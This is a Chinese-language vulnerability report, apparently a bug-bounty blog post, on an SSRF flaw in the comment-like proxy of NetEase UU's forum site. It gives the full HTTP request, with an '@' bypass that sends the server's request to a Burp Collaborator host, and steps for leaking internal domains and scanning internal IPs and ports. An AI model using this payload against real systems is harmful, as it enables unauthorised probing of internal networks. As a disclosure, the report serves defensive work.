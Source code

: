 ```yaml
---
layout: post
title:  "网易UU论坛深井Web版评论等功能存在SSRF漏洞"
date:   2023-09-20 10:26:18 +0800
categories: xss
---
```


## 漏洞名称

> 网易UU论坛深井Web版评论等功能存在SSRF漏洞

## 漏洞类型
> web漏洞，SSRF

## 危害等级
> 低危

## 漏洞URL
- POST https://sowellwell.com/w/v1/comment/proxy


## 关键数据包

    POST /w/v1/comment/proxy HTTP/2
    Host: sowellwell.com
    Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
    Content-Length: 351
    Identifier: jssdk_sD3SHpGpz24cW77h
    Accept: application/json, text/plain, */*
    Content-Type: application/json;charset=UTF-8
    Sec-Ch-Ua-Platform: "Windows"
    Origin: https://sowellwell.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
    Accept-Encoding: gzip, deflate

    {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}


## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的回复点赞等功能存在ssrf漏洞，攻击者能够通过该漏洞遍历内网机器和开放端口。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录Web版深井账号，并且点开任意帖子并且发表评论或者对某评论进行点赞操作，同时用burpsuite记录点赞时的请求为POST请求`https://sowellwell.com/w/v1/comment/proxy`
![like](/assets/uu_ssrf/like.png)

2. 观察到请求体中有一个`path`字段，指向某个相对路径，于是尝试用@符号进行绕过。如下：

        某域名+/like/apps/uu/server/create_like = 完整url
        某域名+@攻击者控制的域名+/like/apps/uu/server/create_like = 攻击者url，而原始的域名则解析为账号字段
3. 将`path`字段修改为burp collaborator进行测试
        
        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
        Content-Length: 351
        Identifier: jssdk_sD3SHpGpz24cW77h
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
        Accept-Encoding: gzip, deflate

        {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

    collaborator接收到UU服务器发送的请求：
    ![collabo](/assets/uu_ssrf/collabo.png)

4. 获取内网域名

    将地址故意填错，可以观察到返回的错误字段包含内网域名信息，例如`path`字段填`abc`，服务器返回错误域名为：`in.mobile-community.uu.netease.comabc`，那么原始的域名为`in.mobile-community.uu.netease.com`

    ![domain](/assets/uu_ssrf/domain.png)

5. 获取域名IP地址
    
    通过dig命令可以查看该域名绑定的内网地址为`10.90.105.177`
    ![dig](/assets/uu_ssrf/dig.png)

6. 遍历内网IP

    获取启动的服务ip：
    ![valid](/assets/uu_ssrf/valid.png)

    未启动的服务ip：
    ![invalid](/assets/uu_ssrf/invalid.png)

7. 遍历内网开放端口

    以`10.90.105.241`为例，尝试遍历常见端口，发现端口8080开放
    ![ports](/assets/uu_ssrf/ports.png)

    
### 漏洞证明
请提供截图或视频

## 漏洞危害
1. 攻击者通过该漏洞遍历内网IP和端口开放信息，造成内网信息泄露
## 修复建议
1. 对潜在的请求`path`字段进行合法性校验

